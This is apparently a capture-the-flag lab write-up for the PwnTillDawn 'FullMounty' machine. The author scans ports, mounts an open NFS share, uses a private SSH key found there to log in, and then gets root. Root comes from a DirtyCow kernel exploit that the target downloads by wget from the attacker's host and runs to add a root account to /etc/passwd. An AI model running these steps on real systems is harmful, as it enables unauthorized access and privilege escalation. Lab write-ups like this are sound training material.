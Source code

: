 ```yaml
---
categories: [PwnTillDawn]
tags: [Kernel Exploit, DirtyCow, NFS]
image:
  path: /Vulnhub-Files/img/FullMounty/Untitled.png
  alt: Chilakiller -> https://www.wizlynxgroup.com/ , https://online.pwntilldawn.com/
---
```



## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.134]
└─$ cat Nmap_results.txt 
# Nmap 7.94 scan initiated Sun Aug 20 22:14:12 2023 as: nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.150.150.134
Nmap scan report for 10.150.150.134
Host is up (0.15s latency).
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 5.3p1 Debian 3ubuntu7.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 f6:e9:3f:cf:88:ec:7c:35:63:91:34:aa:14:55:49:cc (DSA)
|_  2048 20:1d:e9:90:6f:4b:82:a3:71:1e:a9:99:95:7f:31:ea (RSA)
111/tcp   open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/udp   nfs
|   100005  1,2,3      34154/tcp   mountd
|   100005  1,2,3      50354/udp   mountd
|   100021  1,3,4      45783/tcp   nlockmgr
|   100021  1,3,4      48262/udp   nlockmgr
|   100024  1          38840/udp   status
|_  100024  1          40110/tcp   status
2049/tcp  open  nfs      2-4 (RPC #100003)
8089/tcp  open  ssl/http Splunkd httpd
|_http-title: splunkd
| http-robots.txt: 1 disallowed entry 
|_/
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2019-10-28T09:51:59
|_Not valid after:  2022-10-27T09:51:59
|_http-server-header: Splunkd
34154/tcp open  mountd   1-3 (RPC #100005)
40110/tcp open  status   1 (RPC #100024)
45783/tcp open  nlockmgr 1-4 (RPC #100021)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}
{: .nolineno}

## NFS Shares Enumeration ⤵️

Now I have access to nfs so lets see its shared shares through `showmount` command →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.134]
└─$ showmount -e 10.150.150.134
Export list for 10.150.150.134:
/srv/exportnfs 10.0.0.0/8
```
{: .nolineno}
{: .nolineno}

Now lets mount this directory in out local system through `mount` command ⤵️ 

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.134]
└─$ mkdir /tmp/nfs
                                                                                                                                
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.134]
└─$ sudo mount -v -t nfs -o vers=3,proto=tcp,nolock 10.150.150.134:/srv/exportnfs /tmp/nfs
[sudo] password for kali: 
mount.nfs: timeout set for Mon Sep 18 22:25:38 2023
mount.nfs: trying text-based options 'vers=3,proto=tcp,nolock,addr=10.150.150.134'
mount.nfs: prog 100003, trying vers=3, prot=6
mount.nfs: trying 10.150.150.134 prog 100003 vers 3 prot TCP port 2049
mount.nfs: prog 100005, trying vers=3, prot=6
mount.nfs: trying 10.150.150.134 prog 100005 vers 3 prot TCP port 34154
```
{: .nolineno}
{: .nolineno}

Now lets check if it gets mounted or not with `df` command →

![Untitled](/Vulnhub-Files/img/FullMounty/Untitled%201.png)

Now lets see inside this shares →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.134]
└─$ cd /tmp/nfs         
                                                                                                                                
┌──(kali㉿kali)-[/tmp/nfs]
└─$ ls -al
total 36
drwxr-xr-x  5 nobody nogroup 4096 Oct 29  2019 .
drwxrwxrwt 27 root   root    4096 Sep 18 22:23 ..
-rw-------  1 nobody nogroup  667 Oct 29  2019 .bash_history
drwxr-xr-x  5 nobody nogroup 4096 Oct 29  2019 .config
-rw-r--r--  1 kali   kali      41 Oct 22  2019 FLAG49
-rw-r--r--  1 kali   kali    1675 Oct  3  2019 id_rsa
-rw-r--r--  1 kali   kali     397 Oct  3  2019 id_rsa.pub
drwxr-xr-x  3 nobody nogroup 4096 Oct 29  2019 .local
drwxr-xr-x  3 nobody nogroup 4096 Oct 29  2019 .mozilla
                                                                                                                                
┌──(kali㉿kali)-[/tmp/nfs]
└─$ cat FLAG49             
41b779ac4c999468ba7f862cde86412096d1c37b
```
{: .nolineno}
{: .nolineno}

Now I got the id_rsa private key so lets try to SSH into the system →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.134]
└─$ ssh deadbeef@10.150.150.134 -i id_rsa
Linux FullMounty 2.6.32-21-generic #32-Ubuntu SMP Fri Apr 16 08:10:02 UTC 2010 i686 GNU/Linux
Ubuntu 10.04.4 LTS

Welcome to Ubuntu!
 * Documentation:  https://help.ubuntu.com/
New release 'precise' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Wed Aug 12 00:50:59 2020
deadbeef@FullMounty:~$ whoami
deadbeef
deadbeef@FullMounty:~$ id
uid=1000(deadbeef) gid=1000(deadbeef) groups=4(adm),20(dialout),24(cdrom),46(plugdev),107(lpadmin),108(sambashare),109(admin),1000(deadbeef)
deadbeef@FullMounty:~$
```
{: .nolineno}
{: .nolineno}

Now lets dig deeper into the shell for root access , and for that I directly checked the kernel version so I got this →

```bash
deadbeef@FullMounty:/$ uname -an
Linux FullMounty 2.6.32-21-generic #32-Ubuntu SMP Fri Apr 16 08:10:02 UTC 2010 i686 GNU/Linux
deadbeef@FullMounty:/$
```
{: .nolineno}
{: .nolineno}

Since it is very old Linux machine so lets use the exploit named as dirtycow over here I have the pre-compiled file of it for both architecture of machine x32 and x64 so lets use  x32 over here ⤵️ 

```bash
deadbeef@FullMounty:/tmp$ wget http://10.66.66.178:2323/exploit_32
--2023-09-18 11:18:01--  http://10.66.66.178:2323/exploit_32
Connecting to 10.66.66.178:2323... connected.
HTTP request sent, awaiting response... 200 OK
Length: 12768 (12K) [application/octet-stream]
Saving to: `exploit_32

100%[=====================>] 12,768      65.4K/s   in 0.2s    

2023-09-18 11:18:01 (65.4 KB/s) - `exploit_32 saved [12768/12768]

deadbeef@FullMounty:/tmp$
deadbeef@FullMounty:/tmp$ ./exploit_32
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
evait:fiw.I6FqpfXW.:0:0:pwned:/root:/bin/bash

mmap: b784b000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created
You can log in with username evait and password root.

DONT FORGET TO RESTORE /etc/passwd FROM /tmp/passwd.bak !!!

Done! Check /etc/passwd to see if the new user was created
You can log in with username evait and password root.

DONT FORGET TO RESTORE /etc/passwd FROM /tmp/passwd.bak !!!

deadbeef@FullMounty:/tmp$ su firefart
Unknown id: firefart
deadbeef@FullMounty:/tmp$ su evait
Password: 
evait@FullMounty:/tmp# whoami
evait
evait@FullMounty:/tmp#
evait@FullMounty:/tmp# cd /root
evait@FullMounty:~# id
uid=0(evait) gid=0(root) groups=0(root)
evait@FullMounty:~# ls -al
total 28
drwx------  4 evait root 4096 2019-10-03 07:34 .
drwxr-xr-x 22 evait root 4096 2019-10-03 00:10 ..
drwx------  2 evait root 4096 2019-10-03 00:10 .aptitude
-rw-------  1 evait root  150 2020-08-12 02:00 .bash_history
-rw-r--r--  1 evait root 3106 2010-04-23 02:45 .bashrc
drwxr-xr-x  2 evait root 4096 2019-10-03 00:10 .debtags
-rw-r--r--  1 evait root  140 2010-04-23 02:45 .profile
evait@FullMounty:~#
```
{: .nolineno}
{: .nolineno}

Now I am root !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }